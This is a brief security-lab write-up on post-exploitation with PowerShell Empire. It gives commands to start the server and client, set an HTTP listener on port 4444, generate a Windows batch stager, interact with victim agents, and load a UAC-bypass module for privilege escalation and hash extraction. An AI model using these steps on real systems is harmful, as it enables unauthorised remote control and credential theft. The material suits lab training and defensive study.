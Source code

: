 # Welcome to Cyber Secure Labs

Created: December 9, 2021 7:33 PM

Public Site for sharing security writes

## Post Exploitation

### Working with Powershell Empire

Empire is a “PowerShell and Python post-exploitation agent” with a heavy focus on client-side

Windows Platform: Exploitation and post exploits are performed using Powershell.

Linux & macOS: Exploitation requires Python 2.6 or 2.7

In the latest version of Powershell Empire comes with a cleint-server model.

To start the server, the command is below:

```bash
sudo powershell-empire server

```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled.png)

To start the client, the command is below:

```bash
sudo powershell-empire client

```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%201.png)

After starting both the client an server, the methodology used to carry out an attack are as follows:

1. Start a Listener
2. Start a Stager
3. Listing the Agents
4. Interact with the agents
5. Run Post Exploitation commands

### Setting up a listener:

```
uselistener http

set Name test2

set Host 192.168.119.208

set Port 4444

execute

```

![Untitled](Welcome%20to%20Cyber%20Secure%20Labs%208e32e2f1837b4723ae8a7c2391aa51ce/Untitled%202.png)

### Setting up a stager:

```
usestager windows/launcher_bat

set Listener test

execute

```

### Setting up a stager:

```
agents

```

### Interacting with an agent

```
interact S2PRDACB

```

### Post Exploitation Commands:

```
info

```

### Elevating Privileges and Extracting Password Hashes

To do this, type the following command:

```
usemodule powershell/privesc/bypassuac_env

```

Set Listener to http, since we are using a http listener, and Agent to the agent from the victim machine.

use the info command to see what options are needed to be set.

```
info

```
